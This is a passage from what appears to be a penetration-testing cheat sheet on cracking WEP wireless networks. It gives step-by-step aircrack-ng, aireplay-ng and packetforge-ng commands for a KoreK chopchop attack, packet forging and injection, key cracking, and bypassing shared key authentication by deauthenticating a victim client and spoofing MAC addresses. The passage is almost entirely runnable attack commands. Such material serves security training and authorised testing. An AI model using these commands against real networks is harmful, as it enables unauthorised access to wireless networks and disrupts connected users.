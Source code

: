 ```powershell
# Aircrack-ng will auto-update when new IVs are available
aircrack-ng -0 wepcrack

# if 64-bit WEP is used, cracking time < 5 minutes 
# switch to 128-bit keys after 600000 IVs
# use the `-f 4` after 2000000
aircrack-ng -n 64 <capture filename>
```

#### KoreK Chopchop attack

> Can't be used for every AP, might work when fragmentation fails Much slower than the fragmentation attack

```powershell
# chopchop attack: -4
# out decrypted: .cap
# out prga: .xor
# Press "Y" (choose a small packet)
aireplay-ng -4 -b $AP_MAC -h $ATTACKER_MAC mon0

# check the packet and find the network addresses
tcpdump -n -vvv -e -s0 -r inject.cap

# use our PRGA from the fragmentation attack
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y prga.xor -w chochop_out.cap

# inject our crafted packet
aireplay-ng -2 -r chochop_out.cap mon0

# crack the WEP key
aircrack-ng -0 wepcrack
```

### Bypassing WEP Shared Key Authentication SKA

> By default, most wireless drivers will attempt open authentication first. If open authentication fails, they will proceed to try shared authentication.

Prerequisite:

* Authentication: Shared Key
* When Fake Authentication => `AP rejects open-system authentication`

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w sharedkey mon0

# deauthentication attack on the connected client
# airodump should display SKA under the AUTH column
# PRGA file will be saved as xxxx.xor
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
# TO CHECK aireplay-ng -0 10 –a $AP_MAC -c $VICTIM_MAC mon0

# fake authentication attack with association timing (every 60s try to reassociate)
# should display switching to Shared Key Authentication
# If you are using a PRGA  file obtained  from a chopchop attack, make sure that it is at least 144 bytes long
# If you have "Part2:  Association  Not  answering...(Step3)" -> spoof the mac address used to fake auth
aireplay-ng -1 60 -e $AP_SSID -y sharedkey.xor -b $AP_MAC -h $ATTACKER_MAC mon0

```